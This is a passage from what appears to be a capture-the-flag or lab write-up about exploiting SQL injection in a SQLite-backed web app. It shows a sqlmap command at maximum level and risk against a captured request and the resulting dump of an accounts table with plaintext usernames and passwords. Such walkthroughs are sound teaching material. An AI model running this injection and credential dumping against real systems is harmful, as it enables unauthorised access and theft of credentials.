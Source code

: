 Using version enumeration, we can find that this uses SQLite.

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

I tossed this Burp request to `sqlmap`, which also gives me a true positive.

```bash
sqlmap -r req -p id --level 5 --risk 3 --dbms sqlite
```

<figure><img src="../../.gitbook/assets/image (3645).png" alt=""><figcaption></figcaption></figure>

Then, we can enumerate the database and dump the passwords within the database.

```
[2 tables]
+----------+
| accounts |
| messages |
+----------+

Table: accounts
[2 columns]
+----------+------+
| Column   | Type |
+----------+------+
| password | TEXT |
| username | TEXT |
+----------+------+

Table: accounts
[2 entries]
+----------+------------------------+
| username | password               |
+----------+------------------------+
| admin    | admin                  |
| sau      | HereIsYourPassWord1431 |
+----------+------------------------
```